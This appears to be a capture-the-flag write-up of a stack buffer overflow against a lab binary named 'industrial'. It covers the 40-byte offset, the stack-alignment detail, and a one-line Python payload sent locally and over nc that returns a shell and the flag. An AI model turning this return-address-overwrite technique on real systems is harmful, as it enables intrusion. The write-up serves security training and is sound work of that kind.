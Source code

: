 Our strategy is to overwrite the return address of the `main` function with the address of `win` (`0x4011be`) to call `system("/bin/sh")`.

The stack layout relevant to our exploit is as follows: `[local_28 (32 bytes)][saved RBP (8 bytes)][return address (8 bytes)]`.

As confirmed by cyclic analysis, the offset to the return address is 40 bytes (32 bytes for `local_28` + 8 bytes for RBP).

By using `0x4011be`, we skip the `win` function's prologue (`push rbp`), which is essential for maintaining 16-byte stack alignment required by the `system` call on x86-64 systems.

---


## Tools Used

- **Ghidra**: To decompile the binary, confirm the buffer size, and locate the `win` function address.
- **GDB/Pwndbg**: To verify the offset (40 bytes) and debug local execution issues.
- **Python/Pwntools**: To craft and send the payload to the local or remote binary.

---


### ✅ Expected Output

Running the exploit locally:

```
❯ python3 -c "import struct; print('A'*40 + struct.pack('<Q', 0x4011be).decode('latin1'))" | ./industrial 
Enter the next command : Thanks
Segmentation fault (core dumped)
```

Running the exploit remotely:

```
$ python3 -c "import struct; print('A'*40 + struct.pack('<Q', 0x4011be).decode('latin1'))" | nc 10.10.32.77 9001
Enter the next command : Thanks
whoami
user
cat flag.txt
THM{just_a_sm4ll_warmup}
```

Successfully executing the exploit provides a shell, allowing us to retrieve the flag: THM{just_a_sm4ll_warmup}.

---


## The Verdict: A Precisely Executed Buffer Overflow

This assessment targeted a custom binary service exposed on port 9001. Our initial reconnaissance identified the service as a non-standard protocol handler. Through local analysis of the provided binary, we uncovered a critical `buffer overflow vulnerability` within its main execution flow.
